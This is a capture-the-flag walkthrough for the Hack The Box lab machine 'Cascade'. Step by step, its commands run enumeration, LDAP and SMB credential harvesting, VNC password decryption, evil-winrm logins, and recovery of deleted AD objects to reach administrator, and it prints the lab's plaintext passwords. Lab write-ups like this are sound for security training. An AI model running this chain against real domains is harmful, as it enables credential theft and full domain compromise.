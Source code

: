 # [Cascade](https://app.hackthebox.com/machines/cascade)

```bash
nmap -p- --min-rate 10000 10.10.10.182 -Pn  
```

![Alt text](img/image.png)

After identifying open ports , let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,88,135,139,389,445,636,3268,3269,5985 10.10.10.182 -Pn 
```

![Alt text](img/image-1.png)



I just enumerate LDAP via `ldapsearch` command.
```bash
ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182 
```


From this result, I found '**cascadeLegacyPwd**' value.

![Alt text](img/image-2.png)


If we decode this via `base64 -d` command, we got password 'rY4n5eva'.

That's the password of 'r.thompson' user.

Let's look at SMB shares via below credentials.

r.thompson: rY4n5eva

```bash
smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
```

![Alt text](img/image-3.png)


Let's access 'Data' share via `smbclient` command.
```bash
smbclient -U '10.10.10.182\r.thompson' //10.10.10.182/Data
```

After accessing, let's got all files from this share.

```bash
mask ""
recurse on
prompt off
mget *
```

![Alt text](img/image-4.png)


I read this file 'VNC Install.reg' and see the password field.

![Alt text](img/image-5.png)


That is hexadecimal, let's read this value via this [tool](https://github.com/trinitronx/vncpasswd.py)

```bash
python2 vncpasswd.py -d -H 6bcf2a4b6e5aca0f
```

![Alt text](img/image-6.png)

After enumeration of this password, I see that it is password of 's.smith' user.

s.smith: sT333ve2

```bash
smbmap -H 10.10.10.182 -u 's.smith' -p 'sT333ve2'
```

![Alt text](img/image-7.png)


Let's login into machine via `evil-winrm` command.

```bash
evil-winrm -i 10.10.10.182 -u s.smith -p 'sT333ve2'
```

user.txt

![Alt text](img/image-8.png)

After enumeration of 's.smith' user, I see that this user belongs to group called 'Audit Share'.

![Alt text](img/image-9.png)


Let's access 'Audit$' share via this user on SMB by using `smbclient` command.

```bash
smbclient -U '10.10.10.182\s.smith' //10.10.10.182/Audit$
```


After accessing, let's got all files from this share.

```bash
mask ""
recurse on
prompt off
mget *
```

![Alt text](img/image-10.png)


I got 'Audit.db' file, let's read this via `sqlite3` command.

![Alt text](img/image-11.png)

I find sensitive creds for 'arksvc' user.

I know that AES Encryption is used, that's why I grab all sensitive information from DLL file.

![Alt text](img/image-12.png)


Hola, I found the password of 'arksvc' user.

arksvc: w3lc0meFr31nd


Let's login via `evil-winrm` command.

```bash
evil-winrm -i 10.10.10.182 -u arksvc -p 'w3lc0meFr31nd'
```


After enumeration of this user via `net user arksvc`, I see that this user belongs to group called 'AD Recycle Bin'.

![Alt text](img/image-13.png)

AD Recycle Bin is a well-know Windows group. Active Directory Object Recovery (or Recycle Bin) is a feature added in Server 2008 to allow administrators t**o recover deleted items just** like the recycle bin does for files. 

The linked [article](https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/) gives a PowerShell command to query all of the deleted objects within a domain


Let's get all data from 'Recycle Bin'.

```bash
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```

![Alt text](img/image-14.png)


I see some stuff about 'TempAdmin' user from recovered items. Let's read all data for this user.

```bash
Get-ADObject -filter { SAMAccountName -eq "TempAdmin" } -includeDeletedObjects -property *
```

![Alt text](img/image-15.png)


If we decode the value for '**cascadeLegacyPwd**' field via `base64 -d` command, we can grab password of 'administrator'.


administrator: baCT3r1aN00dles

Let's login via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles
```

root.txt

![Alt text](img/image-16.png)